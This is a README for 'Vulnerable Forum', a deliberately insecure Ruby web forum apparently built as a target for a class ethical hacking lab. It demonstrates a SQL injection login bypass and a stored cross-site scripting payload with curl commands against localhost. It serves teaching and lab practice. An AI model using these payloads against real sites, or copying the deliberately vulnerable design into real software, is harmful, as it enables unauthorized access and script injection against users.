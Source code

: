 # Vulnerable Forum
This is a vulnerable web forum to act as dummy application to be the punching bag for whilst doing my ethical hacking lab for class.

## Installation

    $ gem install vulnerable_forum

## Usage


#### SQL Injection 
SQL Inject the login form however you'd like, even at the command-line!:

```shell
> curl localhost:4567 --cookie "cookies.txt" --cookie-jar "cookies.txt"
Welcome to the forum!
Total Users: 1
Total Posts: 2

> curl -X POST localhost:4567/login \ 
    -d "username=' or ''='&password=' or ''='" \ 
    --cookie "cookies.txt" \ 
    --cookie-jar "cookies.txt"
Welcome back John!

> curl localhost:4567 --cookie "cookies.txt" --cookie-jar "cookies.txt"
Welcome to the forum, John!
Total Users: 1
Total Posts: 2
```

#### Stored Cross-Site Scripting
Stored XXS attacks are fun, huh?:

```shell
> curl -X POST localhost:4567/post \ 
  -d "title=Hacked&content=<script>alert("Hacked!")</script>' 
  --cookie "cookies.txt" \
  --cookie-jar "cookies.txt"
```

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).
